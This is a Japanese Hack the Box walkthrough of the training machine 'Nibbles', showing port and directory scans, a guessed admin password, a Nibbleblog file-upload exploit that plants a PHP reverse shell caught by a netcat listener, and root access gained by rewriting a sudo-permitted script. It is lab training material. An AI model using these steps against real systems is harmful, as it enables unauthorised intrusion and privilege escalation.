 ```yaml
---
title: "【Hack the Box write-up】Nibbles"
date:  "2020-06-14T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```


## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)

## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です

![スクリーンショット 2020-06-14 15.33.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6ef7b88f-0f70-dc79-963c-a77031628fc7.png)

評価が低いマシンでした。
~~ちなみに僕も「ん？」って感じました。~~



## nmap 

```
# Nmap 7.80 scan initiated Sun Jun 14 01:12:49 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/AutoRecon/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /home/kali/AutoRecon/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Increasing send delay for 10.10.10.75 from 0 to 5 due to 13 out of 43 dropped probes since last increase.
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.25s latency).
Scanned at 2020-06-14 01:12:50 EDT for 54s
Not shown: 998 closed ports![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c70eda51-c6d3-4f29-95dc-356558d755a9.png)
![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1ca9748c-0749-b0f4-8355-745b6e79c3a8.png)

Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 14 01:13:44 2020 -- 1 IP address (1 host up) scanned in 54.58 seconds

```

## 80番
![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/0e3a3060-51ea-79fb-f818-1e98868722eb.png)

![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/b7d5c7aa-5ed2-42b0-e87e-fd6e4e2f773a.png)

## /nibbleblog/を開く

![スクリーンショット 2020-06-14 15.32.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7f2ba659-466d-6cb4-bd49-81ef6f8c09bf.png)

nibbleblog のこの version には File Upload Vulnerability があります
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload

## gobuster

```
kali@kali:~$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/06/14 02:32:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
[ERROR] 2020/06/14 02:33:28 [!] Get http://10.10.10.75/nibbleblog/servlets.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/xFS.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/5260.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/News_Readers.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:13:08 [!] Get http://10.10.10.75/nibbleblog/prag: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:27:14 [!] Get http://10.10.10.75/nibbleblog/DWT-SpectacularRed.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:43:26 [!] Get http://10.10.10.75/nibbleblog/t10098.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/06/14 03:44:49 Finished
===============================================================

```

## /admin.php開く

Login のフォームが出てきます
他のページを割とくまなく探しましたが、credential が出てこず、数回 login 失敗するとブロックされるため hydra 等も使えません。
default credential も存在しないため、低評価であることから、まさかこれは guess か〜？と思ってぽちぽちしてたら、admin/nibbles で通りました。う〜んこれは厳しい…

（数回 login 失敗するとブロック→hydra 等使えない　= bruteforce しなくてもどこかに credentials があるよって言うメッセージなんだろーな〜と思ったんですけどね…）~~（低評価の由縁はこれか〜）~~

## さっきのFile Upload Vulnerability

https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

これを参考に以下の php の reverseshell のスクリプトを上げます
https://github.com/pentestmonkey/php-reverse-shell

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 55886
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:35:30 up  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


```

shell が取れました

## /home/nibbler/personal.zip

/home/nibbler/personal.zip を unzip します

```
nibbler@Nibbles:/home/nibbler$ find personal
find personal
personal
personal/stuff
personal/stuff/monitor.sh
```
monitor.sh と言うのが出てきます（中身はあんま関係ないので割愛

## sudo -l

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

お👀

## monitor.shを書き換え

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c*****************
```

root.txt が取れました

## 終わりに
う〜ん、login にそこそこの時間を費やしました…
精進します

